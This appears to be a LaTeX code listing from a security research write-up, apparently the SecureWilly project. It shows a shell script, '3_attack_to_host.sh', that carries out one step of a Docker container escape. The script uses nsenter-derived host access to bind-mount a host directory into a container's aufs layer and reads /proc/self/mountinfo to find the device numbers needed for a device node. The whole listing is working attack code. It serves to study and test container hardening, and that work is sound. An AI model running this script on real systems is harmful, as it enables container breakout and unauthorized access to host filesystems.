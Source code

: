 \begin{lstlisting}[style=shellscript, caption={3\_attack\_to\_host.sh}]
#!/bin/sh

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Attacker's container is using nsenter to enter host's filesystem so from now on we will refer to attacker's container namespaces as host's namespaces - especially mount namespace and host's filesystem.

#Layers in container's filesystem
ls /var/lib/docker/aufs/diff | grep -v removing | grep -v init
#Choose one and create a dir there
#Which one? Check in container's root directory to see if doot dir appears. If not run again this script, choosing another layer
echo "Please give layer's id:"
read layer

#If doot does not exist already in the attacked container's / dir, create new directory doot
if [ ! -d /var/lib/docker/aufs/diff/${layer}/doot ]; then
        mkdir /var/lib/docker/aufs/diff/${layer}/doot
fi

#In host's filesystem, if restricted_area does not already exist, create dir restricted_area
if [ ! -d ${attack}/restricted_area ]; then
        mkdir ${attack}/restricted_area
fi

#Create a file in host's restricted_area
touch ${attack}/restricted_area/HellloFromTheOtherSide

#Then mount a host directory to container's doot directory
mount -o bind ${attack}/restricted_area /var/lib/docker/aufs/diff/${layer}/doot

#Find mountpoint of restricted_area's filesystem and which filesystem is that - special device that needs to be created
df ${attack}/restricted_area | grep / > fs_of_restricted_area #We use grep / to omit first line with titles of columns
#Keep the filesystem/device
cut -d' ' -f1 fs_of_restricted_area > sdev_of_fs
sdev_fs=$(cat sdev_of_fs)
#ls -l to find the real device not the mapping that we got at /dev/disk/by-uuid
ls -l ${sdev_fs} > sdev_of_fs1
awk '{ print $NF }' sdev_of_fs1 > sdev_of_fs2
cut -d'/' -f3 sdev_of_fs2 > sdev_of_fs3
mv sdev_of_fs3 sdev_of_fs
#Keep the path where the targeting filesystem is mounted at
cut -d' ' -f8 fs_of_restricted_area > mntpoint_of_fs
mnt_of_fs=$(cat mntpoint_of_fs)
cat /proc/self/mountinfo > mountinfo
#Find the subdirectory of the filesystem that is mounted at mntpoint_of_fs
awk -v mnt="${mnt_of_fs}" '{if ($5==mnt) {print $3}}' mountinfo > mntinfo
#Find the major and minor number of the device that needs to be created
cut -d':' -f1 mntinfo > major_num
cut -d':' -f2 mntinfo > minor_num

#Clear files
rm fs_of_restricted_area
rm mountinfo
rm mntinfo
rm mntpoint_of_fs
\end{lstlisting}

